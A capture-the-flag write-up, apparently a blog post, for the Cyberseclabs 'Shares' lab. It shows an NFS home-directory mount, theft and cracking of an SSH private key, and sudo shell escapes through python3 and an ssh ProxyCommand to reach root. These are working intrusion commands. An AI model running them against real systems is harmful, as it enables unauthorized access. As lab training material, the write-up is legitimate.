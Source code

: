 ```yaml
---
title: "Shares"
date: 2022-09-16T18:33:31+01:00
draft: false
categories:
  - Cyberseclabs
---
```


## Enumeration

### nmap:

```
PORT STATE SERVICE REASON VERSION
21/tcp open ftp syn-ack vsftpd 3.0.3

80/tcp open http syn-ack Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Pet Shop
| http-methods:
|_ Supported Methods: OPTIONS HEAD GET POST
|_http-server-header: Apache/2.4.29 (Ubuntu)

111/tcp open rpcbind syn-ack 2-4 (RPC #100000)
| rpcinfo:
| program version port/proto service
| 100000 2,3,4 111/tcp rpcbind
| 100000 2,3,4 111/udp rpcbind
| 100000 3,4 111/tcp6 rpcbind
| 100000 3,4 111/udp6 rpcbind
| 100003 3 2049/udp nfs
| 100003 3 2049/udp6 nfs
| 100003 3,4 2049/tcp nfs
| 100003 3,4 2049/tcp6 nfs
| 100005 1,2,3 33317/tcp6 mountd
| 100005 1,2,3 47026/udp mountd
| 100005 1,2,3 52045/tcp mountd
| 100005 1,2,3 56412/udp6 mountd
| 100021 1,3,4 33401/tcp nlockmgr
| 100021 1,3,4 41275/tcp6 nlockmgr
| 100021 1,3,4 44254/udp nlockmgr
| 100021 1,3,4 60886/udp6 nlockmgr
| 100227 3 2049/tcp nfs_acl
| 100227 3 2049/tcp6 nfs_acl
| 100227 3 2049/udp nfs_acl
|_ 100227 3 2049/udp6 nfs_acl

2049/tcp open nfs_acl syn-ack 3 (RPC #100227)
Service Info: OS: Unix

27853/tcp open  ssh     syn-ack OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 97:93:e4:7f:41:79:9c:bd:3d:d8:90:c3:93:d5:53:9f (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCyk8rqOZBxSEXCu+mZCgIQOiHcAg/2ivCFVqGH0ehzvIN3eFZ5jll3zDyKehhaSyYeouoQZbpUk4fmTEqPFdUGjOzXhUhf6pQ0atKx3hms+b5ZLaCL2UjburequfIHCfDCbt6Wbj7dozIMmQ4+qjPQqBkUci7DjCTA/LbxNPL47hoC+3vAvCgRxAK6Yq4tUlil3eSgHX9EeJSxJQpDShPjTZ384+DUMx3VJbXFNBtxsUblPeykzrM18Hill3Yy/D4L9ZW0PJ5P3W+cFQuHc3RWLXCY6S1WmHDxGcI2UA3f2UaBDn2zm3cmgt3yKWTuqY98NlSh880AzmAcS6HpDlY/
|   256 11:66:e9:84:32:85:7b:c7:88:f3:19:97:74:1e:6c:29 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBDF3clGPfC6R84UaHxAMoGIYn58Njt+Dth8rsl/Aa8W9SXquC3L+TGPb5dVRArkmCgta+moG16PhstNUHlyNVbA=
|   256 cc:66:1e:1a:91:31:56:56:7c:e5:d3:46:5d:68:2a:b7 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIGKX5ZbEhRnQU7woPnhhFMtk+c0HJcj0T3xPfAWHTBH9
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel


36549/tcp open  mountd  syn-ack 1-3 (RPC #100005)

44829/tcp open  nlockmgr syn-ack 1-4 (RPC #100021)

57327/tcp open  mountd  syn-ack 1-3 (RPC #100005)

```

There is a website running, a petshop, and a nfs server.
There is not much information on the website and ftp doesnt allow anonymous login, we can try to enumerate the nfs server.

```
$showmount -e 172.31.1.7

Export list for 172.31.1.7:
/home/amir *.*.*.*
```

Now we know there is a user called amir, and we can try to mount the amir folder on our machine

```
mount -t nfs 172.31.1.7:home/amir /mnt/TempNFS

drwxrwxr-x 5 nair0lf32 docker 4096  2 avril  2020 .
drwxr-xr-x 1 root      root     14 27 oct.  11:41 ..
-rw-r--r-- 1 nair0lf32 docker    0  2 avril  2020 .bash_history
-rw-r--r-- 1 nair0lf32 docker  220  4 avril  2018 .bash_logout
-rw-r--r-- 1 nair0lf32 docker 3786  2 avril  2020 .bashrc
drw-r--r-- 2 nair0lf32 docker 4096  2 avril  2020 .cache
drw-r--r-- 3 nair0lf32 docker 4096  2 avril  2020 .gnupg
-rw-r--r-- 1 nair0lf32 docker  807  4 avril  2018 .profile
drwxrwxr-x 2 nair0lf32 docker 4096  2 avril  2020 .ssh
-rw-r--r-- 1 nair0lf32 docker    0  2 avril  2020 .sudo_as_admin_successful
-rw-r--r-- 1 nair0lf32 docker 7713  2 avril  2020 .viminfo
```

We have access to the .ssh folder with amir's private id_rsa key. We crack that:  
First we use: 

`python2 /usr/share/john/ssh2john.py id_rsa > id_rsa.john` 

to get a john formatted hash file, then we run john on the hash file:

```
john -w=/usr/share/wordlists/rockyou.txt id_rsa.john
Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 2 OpenMP threads
Note: This format may emit false positives, so it will keep trying even after
finding a possible candidate.
Press 'q' or Ctrl-C to abort, almost any other key for status
hello6           (id_rsa)
1g 0:00:00:08 DONE (2021-10-27 11:52) 0.1213g/s 1740Kp/s 1740Kc/s 1740KC/sa6_123..*7¡Vamos!
Session completed


ssh creds:
amir:hello6

```

Now we can ssh as amir using his key...note that ssh is not on port 22

```
ssh amir@172.31.1.7 -i id_rsa -p 27853

amir@shares:/home$ ls
amir  amy
```

There seem to be another user called amy and as amir's folder is empty I guess our user flag is owned by amy.

We check sudo rights for possible lateral movement:

```
$ sudo -l
Matching Defaults entries for amir on shares:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User amir may run the following commands on shares:
    (ALL : ALL) ALL
    (amy) NOPASSWD: /usr/bin/pkexec
    (amy) NOPASSWD: /usr/bin/python3
```

And we can. we can run either python or pkexec as amy.
I chose python because I already know how to work with that one. Gotta explore pkexec too later.

```
sudo -u amy /usr/bin/python3 -c 'import os; os.system("/bin/bash")'
```

And now we are amy. We get User Flag in amy's home folder:  
`cat access.txt`

Now its Privilege Escalation time:

```
amy@shares:/home/amy$ sudo -l
Matching Defaults entries for amy on shares:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User amy may run the following commands on shares:
    (ALL) NOPASSWD: /usr/bin/ssh
```

Uh ok amy can run ssh as root? let's ask Gtfobins for help here

```
sudo ssh -o ProxyCommand=';sh 0<&2 1>&2' x
```

And Its done, we are root. flag is in the root folder:

` cat system.txt`

And that's it. If you are curious enough remember to try the other way around. and find
other methods to get the flags. by example it seems to be a possible escalation with lxd from amir 'id command' to root.

